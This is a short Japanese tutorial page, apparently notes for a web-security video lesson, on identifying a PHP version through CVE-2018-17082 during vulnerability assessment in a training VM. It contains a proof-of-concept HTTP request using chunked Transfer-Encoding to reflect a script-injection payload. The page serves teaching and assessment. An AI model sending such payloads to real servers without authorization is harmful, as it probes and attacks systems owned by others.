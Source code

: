 # 脆弱性診断:CVE-2018-17082を用いてPHPのバージョンを特定する

- 本日お伝えしたいこと
  - ソフトウェアの脆弱性を用いたバージョン特定の方法
  - バージョン特定した結果を脆弱性診断に活用する方法

- 前提となる環境
  - 徳丸本VM
  - OWASP ZAP (Burp Suite等でも可）

# PoC

```
GET /hello.php HTTP/1.1
Host: example.com
Transfer-Encoding: chunked
Content-Length: 34

<script>alert('Hacked')</script>
```

# 参考記事

- [PHPの脆弱性CVE-2018-17082はApacheの脆弱性CVE-2015-3183を修正したら発現するようになったというお話](https://blog.tokumaru.org/2020/05/phpcve-2018-17082apachecve-2015-3183.html)
- [Red Hat Customer Portal | CVE-2018-17082](https://access.redhat.com/security/cve/CVE-2018-17082)
- [1243887 – (CVE-2015-3183) CVE-2015-3183 httpd: HTTP request smuggling attack against chunked request parser](https://bugzilla.redhat.com/show_bug.cgi?id=1243887)


動画URL : [脆弱性診断: CVE-2018-17082を用いてPHPのバージョンを特定する](https://www.youtube.com/watch?v=-JbTCJIuxxQ)

YouTubeチャンネル　[徳丸浩のウェブセキュリティ講座](https://www.youtube.com/channel/UCLNW6Bo_YU3TxnzsII2gEDA)
